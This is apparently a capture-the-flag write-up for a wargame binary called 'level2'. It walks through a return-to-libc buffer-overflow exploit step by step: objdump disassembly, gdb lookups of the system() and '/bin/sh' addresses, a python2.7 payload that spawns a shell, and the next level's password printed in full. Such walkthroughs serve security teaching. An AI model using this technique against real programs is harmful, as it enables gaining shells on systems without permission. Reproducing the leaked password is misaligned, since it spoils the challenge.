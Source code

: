 # level2

## disassemble

```shell
objdump -dC -M intel level2
```

## ret to libc


`system("/bin/sh")` : ret                 + system + "...." + "/bin/sh"

                      "0x804854f"         + ...

                      "\x4f\x85\x04\x08"  + ...


```shell
gdb level2
(gdb) break main
(gdb) run
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

`system("/bin/sh")` : ret                 + system              + "...." + "/bin/sh"
                      "0x804854f"         + "0xb7e6b060"        + "...." + ...
                      "\x4f\x85\x04\x08"  + "\x60\xb0\xe6\xb7"  + "...." + ...

```shell
(gdb) info proc map
process 3420
Mapped address spaces:
        Start Addr  End Addr    Size      Offset  objfile
        0xb7e2c000  0xb7fcf000  0x1a3000  0x0     /lib/i386-linux-gnu/libc-2.15.so

find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
  0xb7f8cc58
  1 pattern found.
```

`system("/bin/sh")` :   ret                 + system              + "...." + "/bin/sh"
                        "0x804854f"         + "0xb7e6b060"        + "...." + "0xb7f8cc58"
                        "\x4f\x85\x04\x08"  + "\x60\xb0\xe6\xb7"  + "...." + "\x58\xcc\xf8\xb7"


## exploit

```shell
python2.7 -c 'print("X"*80 + "\x4f\x85\x04\x08"  + "\x60\xb0\xe6\xb7"  + "...." + "\x58\xcc\xf8\xb7")' > /tmp/exploit.txt
cat /tmp/exploit.txt /dev/stdin | ./level2
```

## flag

```shell
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
exit
```